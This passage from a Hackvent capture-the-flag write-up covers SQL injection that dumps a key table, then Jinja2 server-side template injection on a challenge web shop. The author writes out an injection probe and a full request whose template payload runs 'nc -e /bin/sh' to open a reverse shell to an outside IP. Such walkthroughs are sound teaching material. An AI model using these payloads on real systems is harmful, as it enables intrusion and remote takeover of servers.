 Then the columns in the same way:
```
select column_name from information_schema.columns limit 0,1

issue_date
organization
state
public_key
country
private_key
... and more
```

Eventually I could dump the value of the private key that was actually a link to stage 3:
```
select private_key from hv24_2.keystorage limit 0,1

challenges.hackvent.hacking-lab.com:1089?key=W5zzcusgZty9CNgw
```

## Stage 3
Here we had an web shop under construction. I first thought of a JWT token because of the session cookies that were like `eyJsb2dnZWRpbiI6InllcyJ9.DSOzwA.QL1ZWPooVzAZArJbijumKM88Jgc`. And the payload value was increasing each second. I tried to crack the but had no luck.

Then, with the 5th hint, it appears that it was a server-side template injection in Jinja2. Two references helped me to exploit this:

1. <http://blog.portswigger.net/2015/08/server-side-template-injection.html>
2. <https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/>

I could first confirm the injection with the following request/response:
```
GET /{{7*'7'}}/12?key=W5zzcusgZty9CNgw HTTP/1.1
Host: challenges.hackvent.hacking-lab.com:1089
Connection: close
```

The 404 error includes the payload interpreted:
```
HTTP/1.0 404 NOT FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 231
Server: Werkzeug/0.13 Python/3.5.3
Date: Wed, 27 Dec 2017 07:37:01 GMT


    <div class="center-content error">
        <h1>Oops! That page doesn't exist.</h1>
        <h3>http://challenges.hackvent.hacking-lab.com:1089/7777777/12?key=W5zzcusgZty9CNgw</h3>
		<img src="/static/img/404.jpg">
    </div>
```

Then after wasting a lot of time on small mistakes I could get a reverse shell with the following request:
```
GET /{{%207.__class__.__mro__[1].__subclasses__()[37](['nc','-e','/bin/sh','92.222.68.177','53'])%20}}/12?key=W5zzcusgZty9CNgw HTTP/1.1
Host: challenges.hackvent.hacking-lab.com:1089
Connection: close
```
